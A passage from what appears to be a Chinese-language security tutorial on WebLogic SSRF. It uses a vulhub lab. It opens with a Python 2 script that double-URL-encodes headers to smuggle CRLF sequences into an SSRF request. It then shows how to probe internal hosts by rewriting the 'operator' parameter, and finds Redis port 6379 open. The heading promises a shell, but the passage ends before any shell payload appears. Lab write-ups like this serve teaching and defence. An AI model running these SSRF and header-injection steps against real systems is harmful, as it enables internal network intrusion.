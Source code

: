 ```python
content_type_encoder = ""
content_type_encoder_2 = ""
url_char = [" "]
nr = "\r\n"

# 编码请求头
for single_char in header:
    if single_char in url_char:
        header_encoder += urllib.quote(urllib.quote(single_char,'utf-8'),'utf-8')
    else:
        header_encoder += single_char

header_encoder = header_encoder.replace("\n",urllib.quote(urllib.quote(nr,'utf-8'),'utf-8'))

# 编码content-type，第一次编码
for single_char in content_type:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder += str(hex(ord(single_char)))
content_type_encoder = content_type_encoder.replace("0x","%") + urllib.quote(nr,'utf-8')
# 编码content-type，第二次编码
for single_char in content_type_encoder:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder_2 += str(hex(ord(single_char)))
content_type_encoder_2 = content_type_encoder_2.replace("0x","%")
exp = url + header_encoder + content_type_encoder_2
print exp
request = urllib2.Request(exp)
response = urllib2.urlopen(request).read()
print response
```
## 利用weblogic的SSRF漏洞探测内网并返回shell
这里环境采用vulhub的docker环境，在centos虚拟机中启动docker-compose，centOS的IP地址为192.168.31.185

1. 利用ssrf探测内网

打开环境<br />![Snipaste_2021-06-27_04-08-06.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738117514-8b415229-4596-459b-b830-ec145a5bae1c.png#align=left&display=inline&height=912&id=u55b146ff&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-08-06.png&originHeight=912&originWidth=1920&size=77843&status=done&style=none&width=1920)<br />在三个输入框中随便填入几个数字，点击search，页面回显如上图所示，此ssrf注入点就在这里<br />抓包<br />![Snipaste_2021-06-27_04-07-11.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738213522-153972bf-070f-4aa5-aa6a-8535e3066719.png#align=left&display=inline&height=983&id=u0b4d8a25&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-07-11.png&originHeight=983&originWidth=1694&size=149407&status=done&style=none&width=1694)<br />在包中发现 operator 字样，其中的URL地址 www-3.ibm.com 同刚才页面回显中的一致，将 operator 的值修改为 172.18.0.2:80 ，发包<br />结果如下图右侧所示<br />![Snipaste_2021-06-27_04-13-32.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738435051-b1e061f1-9c67-4c07-ad5b-1c179d4c2f13.png#align=left&display=inline&height=983&id=u37d95ad4&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-13-32.png&originHeight=983&originWidth=1694&size=164786&status=done&style=none&width=1694)<br />“cannot connect”，所以172.18.0.2的80端口并没有开放<br />我们把80改为6379，结果如下<br />![Snipaste_2021-06-27_04-06-26.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624738533076-d54ad861-f705-4311-a1c5-fe8d2223db71.png#align=left&display=inline&height=983&id=ucee94c98&margin=%5Bobject%20Object%5D&name=Snipaste_2021-06-27_04-06-26.png&originHeight=983&originWidth=1694&size=166813&status=done&style=none&width=1694)<br />此结果证明172.18.0.2的6379端口是开放的
